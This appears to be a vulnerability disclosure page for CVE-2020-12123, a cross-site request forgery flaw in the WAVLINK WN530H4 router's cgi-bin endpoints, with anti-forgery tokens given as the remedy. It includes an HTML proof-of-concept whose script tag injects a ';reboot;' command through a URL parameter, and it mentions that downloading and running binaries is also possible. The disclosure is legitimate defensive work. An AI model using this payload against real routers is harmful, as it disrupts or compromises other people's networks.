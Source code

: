 ```yaml
---
year: 2020
cveid: CVE-2020-12123
product: "WAVLINK WN530H4"
vulnerability: "Cross Site Request Forgery (CSRF)"
publish: true
category: bugs
layout: bug-report
---
```


This vulnerability is a Cross-Site Request Forgery (CSRF) in the WAVLINK WN530H4 router.

Many endpoints in the web interface <kbd>/cgi-bin/</kbd> directory are vulnerable to CSRF. This effectively allows other websites to submit requests to the router page without the user knowing – even if the router manufacturers patch the cgi-bin authentication bypass (however, the attack will only work if the admin is logged in).

Malicious websites with hoards of router vulnerabilities could create traps on the Internet with maliciously-crafted websites that trigger vulnerabilities in the router. As an example, consider this malicious HTML page.

<pre>
<code>
&#x3C;html&#x3E;
    &#x3C;head&#x3E;
        &#x3C;title&#x3E;Reboot!&#x3C;/title&#x3E;
        &#x3C;script src = &#x22;http://192.168.10.1/cgi-bin/live_api.cgi?page=hacked&#x26;id=1337&#x26;ip=;reboot;&#x22;&#x3E;&#x3C;/script&#x3E;
   &#x3C;/head&#x3E;
   &#x3C;body&#x3E;
       &#x3C;h1&#x3E;This webpage reboots the WAVLINK router.&#x3C;/h1&#x3E;
   &#x3C;/body&#x3E;
&#x3C;/html&#x3E;
</code>
</pre>

This malicious HTML exploits the command line injection vulnerability "remotely" by rebooting the router (effectively causing a denial of service). An unsuspecting user could succumb themselves to this attack if they click a link with this vulnerable code. Of course, many more vulnerable attacks can be executed – including malicious binaries being downloaded remotely and executed.

To solve this, the router must employ protections. One such protection is employing anti-forgery tokens. It seems that the router manufacturers try this by protecting most of the webpages with a token, but none of the cgi-bin endpoints are protected by this, rendering this defense useless.

For more information and vulnerability analysis, please see [my report on the WAVLINK WN530H4]({{"/assets/reports/report_wavlink.pdf" | relative_url}}).
